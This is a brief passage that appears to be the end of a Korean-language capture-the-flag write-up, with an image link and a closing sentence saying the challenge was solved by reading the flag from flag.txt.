
 
최종적으로 `flag.txt` 파일 내 플래그를 획득함으로써, 해당 문제를 완전히 해결하였다.


